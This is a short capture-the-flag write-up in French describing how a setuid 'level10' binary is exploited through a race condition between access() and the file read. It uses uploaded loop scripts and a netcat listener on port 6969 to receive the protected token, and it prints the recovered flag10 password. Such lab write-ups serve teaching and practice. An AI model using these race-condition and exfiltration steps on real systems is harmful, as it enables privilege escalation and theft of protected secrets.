 On voit un fichier level09 à la racine du home, qui s'execute avec les permissions de `flag10`, ainsi qu'un autre fichier `token` appartenant à flag10 et ne pouvant être lu que par ce dernier.
`./level10` nous indique qu'un argument doit être passé, ainsi qu'un host qui recevra le contenu du fichier.

La technique du lien symbolique ne fonctionne plus, mais on voit que access est appelé. Si aucune autre vérification est faite avant la lecture du fichier, une race condition peut peut-être être faite.

On donne les droits a /home/user dans level10, on fait 2 script, un pour faire la race condition et l'autre pour lancer l'executable en boucle, puis on les envoie avec la commande:

`scp -P 4242 level10/resources/invert.bash level10@10.12.200.80:/home/user/level10`

`scp -P 4242 level10/resources/spam.bash level10@10.12.200.80:/home/user/level10`

Apres avoir recu les fichiers, on peut donc commencer a les lancer

`./invert.bash a token &`
`./spam.bash`

Puis dans une autre fenetre on fait:

`nc -lk 6969`

On attends un peu...
Et on obtient le mot de passe de flag10 "woupa2yuojeeaaed06riuj63c".
